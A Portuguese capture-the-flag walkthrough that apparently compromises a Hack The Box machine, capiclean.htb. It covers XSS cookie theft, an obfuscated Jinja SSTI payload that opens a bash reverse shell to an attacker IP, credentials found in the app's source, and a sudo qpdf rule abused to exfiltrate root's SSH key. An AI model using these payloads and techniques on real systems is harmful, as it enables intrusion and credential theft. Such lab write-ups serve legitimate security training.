


# Reconhecimento

A princípio realizamos o mapeamento das portas abertas no nosso alvo, bem como seus serviços e versões.

```
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.52 ((Ubuntu))
```

Ao tentar acessar o servidor WEB, nós somos redirecionados para o domínio capiclean.htb. Dessa forma, adicionamos a seguinte linha no nosso arquivo /etc/hosts para que esse domínio consiga ser resolvido.

```
 echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

Após acessar a aplicação e realizarmos uma busca na aplicação por vulnerabilidades, e nos deparamos com o endpoint "http://capiclean.htb/quote" que trouxe uma mensagem suspeita:

```
Your quote request was sent our management team. They will reach out soon via e-mail. Thanks for the interest you have shown in our services
```

Ao ler esta mensagem, automaticamente verificamos se algum parâmetro da request enviada para o admin, vulnerável a XSS, pois se fosse o caso nós poderíamos fazer a exfiltração do seu token e utilizar a app com privilégio máximo.



Utilizamos os payload acima para enviar o token de sessão do admin para um servidor web que que levantamos com python utilizando o comando

```
python3 -m http.server
```

Como resultado desse processo, obtivemos o token de sessão do admin


# Acesso inicial

De posse do token, enumeramos mais alguns endpoint da aplicação

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-
medium.txt:FFUZ -u http://capiclean.htb/FFUZ
```

E encontramos o endpoint 'dashboard' que tem acesso restrito. Dessa forma, adicionamos o cookie de admin no browser e conseguimos acessar o endpoint.

Seguindo o 'happy path' da aplicação nós geramos um invoice, e posteriormente tentamos acessá-lo por meio da função de geração de QRcode. Analisando os parâmetros request, nós identificamos um SSTI no parâmetro 'qr_link'



Uma vez que identificamos esta vulnerabilidade, nós iniciamos os testes com payloads diversos para conseguir uma shell reversa. O payload a seguir foi o que nos possibilitou acessar o sistema

```
 {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/Nosso_IP/4444 0>&1'")|attr("read")()}}
```

# Escalação de privilégio

Uma vez que conseguimos executar código na máquina alvo, realizamos uma varredura na em sua infraestrutura. Começamos pelo código fonte da aplicação. Nele encontramos algumas credenciais de banco de dados:

```python3
db_config = {
'host': '127.0.0.1',
'user': 'iclean',
'password': 'pxCsmnGLckUb',
'database': 'capiclean'
}
```

Ao verificarmos as portas abertas na aplicação, percebeu-se que a porta 3306 estava aberta. Indicando que existe um banco MySQL em execução. De posse dessa informação utilizamos as credenciais antes encontradas no código para assim consegui ter acesso aos dados do banco

```
mysql --database capiclean -e 'show databases;' -u iclean -p
```

Após isso, tentamos quebrar ambas as hashs e tivemos sucesso em quebrar apenas a hash do usuário 'consuela' que resultou na senha 'simple and clean'. Com a senha e o usuário foi feita a tentativa de logins via ssh.

```
ssh consuela@$rhost
```

Que foi bem sucedida. Agora com a shell ssh verificamos se algum comando habilitado a ser executado com privilégio de sudo.

```
sudo -l
```

Após entender do que se trata a plicação. Fizemos a seguinte suposição, se o usuário consuela tem ssh, o usuário root também deve ter ssh. Sendo sua chave privada armazenada no arquivo /root/.ssh/id_rsa, nós poderíamos mandar criar um pdf com o conteúdo da chave ssh do usuário root e direcionarmos esse pdf para um diretório acessível.

```
 sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa
```

Após a suposição se mostrar verdadeira, nós resgatamos a chave ssh ao verificar o conteúdo interno do pdf, nós realizamos o login via root por meio do comando

```
ssh root@$rhost -i root_ssh_key_file
```

Com isso nós temos acesso ao usuário root e podemos ver a última flag

```
cat root.txt
```
